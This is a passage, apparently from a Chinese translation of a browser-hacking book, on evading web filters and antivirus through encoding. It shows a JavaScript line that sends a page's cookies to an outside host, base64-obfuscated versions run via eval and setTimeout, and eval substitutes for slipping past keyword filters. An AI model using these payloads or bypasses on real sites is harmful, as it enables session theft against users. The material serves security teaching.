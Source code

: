 

### 躲避检测

躲避Web应用防火墙、Web代理和客户端启发式防病毒技术的检测，是一个猫捉老鼠的游戏。安全研究者 经常发现新的躲避技术，可以在某个时间段内使用。而在该技术广为人知之后，防御者就会拿出对应的检 测技术，这种躲避技术也就失效了。把这个过程转换成伪代码，如下所示：

```
loop
 develop_evasion()
 use_it_in_the_wild()
 sleep 10
 defenders_become_aware()
 sleep 20
 defenders_implement_detection()
end
```



### 使用编码躲避

第一种也是最简单的隐藏代码的方式就是对其编码。这里所说的编码或解码，指的是把代码从一种格式转 换成另一种格式。基于浏览器的编码和技术有很多。其中一些很简单，就是使用base64编码纯文本字符 串。还有一些高级点儿，依赖JavaScript语言的高级特性，比如非数字字母编码



#### 1、base64编码

有一种常见的检测恶意JavaScript的技术，使用基于正则表达式的过滤器，搜索eval 、 document.cookie 或其他可能用于恶意目的的关键字。如果你想盗取一个Web应用的cookie，且该 cookie没有被标记为HttpOnly，那可以执行这行代码：

```js
location.href='http://browserhacker.com?c='+document.cookie
```

这行代码会把cookie发给你的网站。可惜的是，原来站点的过滤程序可能会检测对document.cookie 的 引用并将其过滤掉。为了隐藏document.cookie ，可以使用base64对其编码，这样攻击方式就变成了：

```javascript
eval(atob("bG9jYXRpb24uaHJlZj0naHR0cDovL2F0dGF"+
 "ja2VyLmNvbT9jPScrZG9jdW1lbnQuY29va2ll"));
```

但基于正则表达式的过滤器还是会阻止它，因为关键字eval 还在黑名单中。不过，访问window 对象的 方法有很多种，通过它们可以使用不同的语句来实现eval 的行为，比如：

```javascript
[].constructor.constructor("code")();
```

另一种方法是使用setTimeout() 或setInterval() 函数（在较新的浏览器中甚至可以使用 setImmediate() ），它们都可以对JavaScript函数求值。注意，在使用setTimeout() 函数时，第二 个参数用于指定多少毫秒后调用这个函数，但它不是必需的。如果不指定，那么就会立即调用相应函数。 使用setTimeout() 时，最终代码会变成这样：

```javascript
setTimeout(atob("bG9jYXRpb24uaHJlZj0naHR0cDovL2Jyb3"+
"dzZXJoYWNrZXIuY29tP2M9Jytkb2N1bWVudC5jb29raWU"));
```

这段代码绕过了前面提到的基于正则表达式的过滤器，也演示了将多种躲避技术结合起来使用的方法。 base64并非唯一的编码方法。还有很多其他可用的方法，比如URL编码、双URL编码、十六进制编码、 Unicode转义，等等。
